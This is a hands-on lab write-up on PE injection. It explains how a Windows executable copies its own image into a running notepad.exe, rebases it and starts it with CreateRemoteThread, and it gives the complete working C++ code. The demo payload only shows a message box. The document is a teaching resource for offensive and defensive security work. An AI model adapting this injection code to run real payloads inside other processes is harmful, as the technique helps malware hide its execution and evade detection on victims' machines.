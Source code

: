 ```yaml
---
description: Code Injection
---
```


# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe \(PE\) into another running process.

{% hint style="warning" %}
Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).
{% endhint %}

## Overview

In this lab, I wrote a simple C++ executable that self-injects its PE into a target process. This executable contains 2 functions:

* `main` - this is the function that performs the self-injection of the PE image into a specified remote/target process, which is going to be `notepad.exe` in this case;
* `InjectionEntryPoint` - this is the function that will get executed by the target process \(notepad\) once notepads gets injected with our PE. 
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

## Technique Overview

Inside the current process, that's doing the self-injection of its PE:

1. Get the image base address `imageBase`
2. Parse the PE headers and get its `sizeOfImage`
3. Allocate a block of memory \(size of PE image retrieved in step 1\). Let's call it `localImage`
4. Copy the image of the current process into the newly allocated local memory `localImage`
5. Allocate a new memory block \(size of PE image retrieved in step 1\) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
6. Calculate the delta between memory addresses `targetImage` and `imageBase`, let's call it `deltaImageBase` 
7. Relocate/rebase the PE that's stored in `localImage` to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
8. Write the patched PE into the `targetImage` memory location using `WriteProcessMemory`
9. Create remote thread and point it to `InjectionEntryPoint` function inside the PE target process

## Walkthrough

Getting `sizeOfImage` of the current process \(local process\) that will be injecting itself into a target process and allocating a new memory block in the local process:

![](../../.gitbook/assets/image%20%28140%29.png)

In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:

![](../../.gitbook/assets/image%20%28280%29.png)

Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:

![](../../.gitbook/assets/image%20%28214%29.png)

Calculate the delta between `0x000001bfc0c20000` and `0x000001813acc0000` and perform [image base relocations](process-hollowing-and-pe-image-relocations.md#relocation). Once that's done, we can move over our rebased PE from `0x000001813acc0000` to `0x000001bfc0c20000` in the remote process using `WriteProcessMemory`. 

Below shows that our imaged has now been moved to the remote process:

![](../../.gitbook/assets/image%20%2891%29.png)

Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```

![New thread getting created inside notepad.exe](../../.gitbook/assets/newthread.gif)

## Demo

Below shows how we've injected the PE into the notepad \(PID 11068\) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:

![](../../.gitbook/assets/pe-injection.gif)

## Code

Below is the commented code that performs the PE injection:

```cpp
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Open the target process - this is process we will be injecting this PE into
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 9304);
	
	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

## References

{% embed url="https://www.andreafortuna.org/2018/09/24/some-thoughts-about-pe-injection/" %}

{% embed url="https://blog.sevagas.com/PE-injection-explained" %}

{% embed url="https://www.malwaretech.com/2013/11/portable-executable-injection-for.html" %}

